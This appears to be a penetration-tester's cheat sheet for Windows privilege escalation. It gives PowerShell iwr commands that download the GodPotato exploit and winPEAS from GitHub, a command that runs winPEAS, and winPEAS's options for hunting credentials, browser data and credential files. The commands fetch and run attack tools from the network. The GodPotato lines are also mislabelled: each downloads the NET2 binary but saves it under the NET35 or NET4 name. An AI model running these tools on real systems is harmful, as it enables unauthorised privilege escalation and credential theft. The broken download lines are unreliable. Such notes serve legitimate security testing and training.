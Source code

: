 ```powershell
iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe" -Outfile GodPotato-NET35.exe
```

```powershell
iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe" -Outfile GodPotato-NET4.exe
```

### winPEAS

Windows Privilege Escalation Awesome Script (.exe): https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe

WinPEAS is a script that search for possible paths to escalate privileges on Windows hosts.

Download:
```powershell
iwr -uri https://github.com/peass-ng/PEASS-ng/releases/download/20241205-c8c0c3e5/winPEASx64.exe  -Outfile winPEASx64.exe
```

Checks:
- System Information
-  Users Information
- Processes Information
- Services Information
- Applications Information
- Network Information
- Cloud Metadata Enumeration
- Windows Credentials
- Browser Information
- Interesting Files and registry
- Events Information

Log output:
```powershell
.\winPEASx64.exe log
```

Options:

```powershell
domain               Enumerate domain information
systeminfo           Search system information
eventsinfo           Display interesting events information
userinfo             Search user information
processinfo          Search processes information
servicesinfo         Search services information
applicationsinfo     Search installed applications information
networkinfo          Search network information
cloudinfo            Enumerate cloud information
windowscreds         Search windows credentials
browserinfo          Search browser information
filesinfo            Search generic files that can contains credentials
fileanalysis         [NOT RUN BY DEFAULT] Search specific files that can contains credentials and for regexes inside files. Might take several minutes.
all                  Run all checks the previous check including fileanalys
```
